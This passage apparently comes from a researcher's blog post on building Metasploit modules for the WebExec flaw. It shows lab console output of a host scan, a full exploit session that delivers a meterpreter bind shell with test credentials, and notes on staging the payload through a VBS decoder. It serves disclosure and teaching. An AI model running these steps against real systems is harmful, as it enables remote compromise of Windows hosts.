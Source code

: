 [-] 192.168.56.105:445    - No service handle retrieved
[+] 192.168.56.105:445    - Command completed!
[-] 192.168.56.103:445    - No service handle retrieved
[+] 192.168.56.103:445    - Command completed!
[+] 192.168.56.104:445    - Command completed!
[+] 192.168.56.101:445    - Command completed!
[*] 192.168.56.100-110:445 - Scanned 11 of 11 hosts (100% complete)
[*] Auxiliary module execution completed
</pre>

And here's the full exploit module:

<pre>
msf5 &gt; use exploit/windows/smb/webexec
msf5 exploit(windows/smb/webexec) &gt; set SMBUser testuser
SMBUser =&gt; testuser
msf5 exploit(windows/smb/webexec) &gt; set SMBPass testuser
SMBPass =&gt; testuser
msf5 exploit(windows/smb/webexec) &gt; set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD =&gt; windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/webexec) &gt; set RHOSTS 192.168.56.101
RHOSTS =&gt; 192.168.56.101
msf5 exploit(windows/smb/webexec) &gt; exploit

[*] 192.168.56.101:445 - Connecting to the server...
[*] 192.168.56.101:445 - Authenticating to 192.168.56.101:445 as user 'testuser'...
[*] 192.168.56.101:445 - Command Stager progress -   0.96% done (999/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
...
[*] 192.168.56.101:445 - Command Stager progress -  98.52% done (102891/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
[*] Started bind TCP handler against 192.168.56.101:4444
[*] Sending stage (179779 bytes) to 192.168.56.101
</pre>

The actual implementation is mostly straight forward if you look at the code linked above, but I wanted to specifically talk about the exploit module, since it had an interesting problem: how do you initially get a meterpreter .exe uploaded to execute it?

I started by using a psexec-like exploit where we upload the .exe file to a writable share, then execute it via WebExec. That proved problematic, because uploading to a share frequently requires administrator privileges, and at that point you could simply use <tt>psexec</tt> instead. You lose the magic of WebExec!

After some discussion with <a href="https://twitter.com/egyp7">Egyp7</a>, I realized I could use the <tt>Msf::Exploit::CmdStager</tt> mixin to stage the command to an .exe file to the filesystem. Using the .vbs flavor of staging, it would write a Base64-encoded file to the disk, then a .vbs stub to decode and execute it!

There are several problems, however:

<ul>
  <li>The max line length is ~1200 characters, whereas the <tt>CmdStager</tt> mixin uses ~2000 characters per line</li>
  <li><tt>CmdStager</tt> uses <tt>%TEMP%</tt> as a temporary directory, but our exploit doesn't expand paths</li>
  <li><tt>WebExecService</tt> seems to escape quotation marks with a backslash, and I'm not sure how to turn that off</li>
</ul>
